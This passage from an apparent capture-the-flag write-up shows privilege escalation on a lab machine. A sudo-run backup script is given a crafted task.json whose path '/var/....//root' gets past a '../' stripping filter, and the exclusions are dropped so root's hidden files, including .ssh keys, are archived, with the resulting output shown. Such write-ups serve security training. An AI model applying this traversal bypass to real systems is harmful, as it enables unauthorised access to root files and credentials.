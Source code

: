 So the scripts requires a json task file that contains the path to the directory to be backed up.
```plaintext
martin@code:~/backups$ sudo /usr/bin/backy.sh
Usage: /usr/bin/backy.sh <task.json>
```
Here is an example of a task file found in the backup folder in the home directory :  
```json
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": false,
        "directories_to_archive": [
                "/home/app-production/app"
        ],

        "exclude": [
                ".*"
        ]
}
```
So all we have to do, is to modify this task file, to backup the /root directory.  

In order to achieve this, we change the `directories_to_archive`, in a way to respect the constraint of the path beginning with `/home` or `/var`, and then bypass the path traversal sanitization filter.

Knowing that `../` is getting deleted, we replace them by `....//`, so that after the deletion of the the first `../`, we still left with a `../`, so we can change directory to root.

Our final task file will look like :  
```json 
{
        "destination": "/home/martin/backups/",
        "multiprocessing": true,
        "verbose_log": true,
        "directories_to_archive": [
                "/var/....//root"
        ]
}
```
We remove the exclusion line so that we backup hidden files and directories (like .ssh, which is the way for the root shell)

We set the `verbose_log` to `true` in order for backup messages output.

Now time to run it again :  
```plaintext
martin@code:~/backups$ sudo /usr/bin/backy.sh task.json
2025/08/06 17:39:16 🍀 backy 1.2
2025/08/06 17:39:16 📋 Working with task.json ...
2025/08/06 17:39:16 💤 Nothing to sync
2025/08/06 17:39:16 📤 Archiving: [/var/../root]
2025/08/06 17:39:16 📥 To: /home/martin/backups ...
2025/08/06 17:39:16 📦
tar: Removing leading `/var/../' from member names
/var/../root/
/var/../root/.local/
/var/../root/.local/share/
/var/../root/.local/share/nano/
/var/../root/.local/share/nano/search_history
/var/../root/.selected_editor
/var/../root/.sqlite_history
/var/../root/.profile
/var/../root/scripts/
/var/../root/scripts/cleanup.sh
/var/../root/scripts/backups/
/var/../root/scripts/backups/task.json
```